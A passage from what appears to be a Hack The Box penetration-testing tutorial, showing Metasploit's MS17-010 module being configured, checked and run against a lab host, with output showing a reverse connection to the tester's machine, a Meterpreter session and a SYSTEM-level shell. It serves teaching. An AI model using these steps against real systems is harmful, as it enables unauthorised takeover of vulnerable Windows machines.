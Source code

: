 	set RHOSTS 10.10.10.40

```text
RHOSTS => 10.10.10.40
```

	set LHOST tun0

```text
LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

	check

```text
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

	exploit

```text
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

As we can see, we have been able to gain admin access to the box and used the `shell` command to drop us into an interactive shell. These are basic examples of using `Metasploit` to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:
